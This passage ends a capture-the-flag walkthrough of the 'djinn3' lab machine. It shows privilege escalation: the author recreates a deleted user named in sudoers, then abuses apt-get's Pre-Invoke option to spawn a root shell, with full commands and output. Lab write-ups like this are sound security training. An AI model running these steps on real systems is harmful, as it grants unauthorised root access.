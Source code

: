 also by looking at the sudoers file we can see that there is an entry for a deleted user named `jason` which can run `apt-get` as root:
```
User jason may run the following commands on djinn3:
    (root) PASSWD: /usr/bin/apt-get
```

So let's recreate this `jason` user and use it's sudo privileges to get a root shell:

```
saint@djinn3:/tmp$ sudo adduser jason --gid=0
Adding user `jason' ...
Adding new user `jason' (1003) with group `root' ...
Creating home directory `/home/jason' ...
Copying files from `/etc/skel' ...
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
Changing the user information for jason
Enter the new value, or press ENTER for the default
        Full Name []: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
Is the information correct? [Y/n] y
saint@djinn3:/tmp$ su jason
Password: 
jason@djinn3:/tmp$
```

from [GTFOBINS](https://gtfobins.github.io/gtfobins/apt-get/#sudo) we can use this command to get a root shell with apt-get:

```
jason@djinn3:/tmp$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

And that's the end of this box I hope you found this writeup helpful and thanks for reading through it :D

